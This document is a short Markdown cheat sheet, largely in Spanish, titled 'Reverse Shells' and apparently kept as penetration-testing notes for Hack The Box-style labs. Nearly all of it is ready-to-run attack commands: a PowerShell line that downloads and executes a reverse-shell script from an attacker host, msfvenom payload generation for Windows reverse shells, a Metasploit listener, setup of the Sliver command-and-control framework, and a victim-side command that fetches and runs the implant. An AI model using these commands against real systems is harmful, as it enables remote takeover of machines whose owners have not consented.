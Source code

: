 ```yaml
---
title: Reverse Shells
layout: default
---
```



### **Windows**

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://LHOST:LPORT/Invoke-PowerShellTcp.ps1')
```

La mejor (a poder ser, es mejor ejecutarla desde el principio así):

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=LHOST LPORT=LPORT -f exe -o revShell.exe

powershell -c "Invoke-webrequest http://$lhost:$py_http_srv_port/$revshell_name -outfile $revshell_name"
. ./revShell.exe
```

```bash
use exploit/multi/handler; set lhost LHOST; set lport LPORT; run
```

# x64

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=LHOST LPORT=LPORT -f exe -o revShell.exe
```
# x86

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o revShell.exe
```

# Sliver

```bash
curl https://sliver.sh/install|sudo bash sliver
sliver
```

```bash
generate --os windows --arch 64bit --mtls IP-ATACANTE --reconnect 60 --save htb.exe 

mtls
```

```bash
sudo python3 -m http.server 80
```

En la víctima:
```powershell
powershell -c "wget IP-ATACANTE/htb.exe -usebasiparsing -outfile C:\users\public\music\htb.exe; C:\users\public\music\htb.exe"
```

```
upload
```